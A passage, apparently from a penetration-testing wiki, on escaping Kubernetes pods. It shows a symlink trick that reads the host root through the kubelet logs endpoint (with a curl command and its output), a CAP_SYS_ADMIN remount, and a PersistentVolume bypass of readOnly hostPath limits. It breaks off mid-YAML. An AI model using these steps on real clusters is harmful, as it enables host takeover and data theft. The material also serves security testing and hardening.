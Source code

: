 - If the attacker controls any principal with the **permissions to read `nodes/log`**, he can just create a **symlink** in `/host-mounted/var/log/sym` to `/` and when **accessing `https://<gateway>:10250/logs/sym/` he will lists the hosts root** filesystem (changing the symlink can provide access to files).

```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```

**A laboratory and automated exploit can be found in** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### Bypassing readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

If you are lucky enough and the highly privileged capability capability `CAP_SYS_ADMIN` is available, you can just remount the folder as rw:

```bash
mount -o rw,remount /hostlogs/
```

#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

As stated in [**this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) it’s possible to bypass the protection:

```yaml
allowedHostPaths:
    - pathPrefix: "/foo"
       readOnly: true
```

Which was meant to prevent escapes like the previous ones by, instead of using a a hostPath mount, use a PersistentVolume and a PersistentVolumeClaim to mount a hosts folder in the container with writable access:

```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
  name: task-pv-volume-vol
  labels:
    type: local
spec:
  storageClassName: manual
  capacity:
    storage: 10Gi
  accessModes:
    - ReadWriteOnce
  hostPath:
    path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: task-pv-claim-vol
```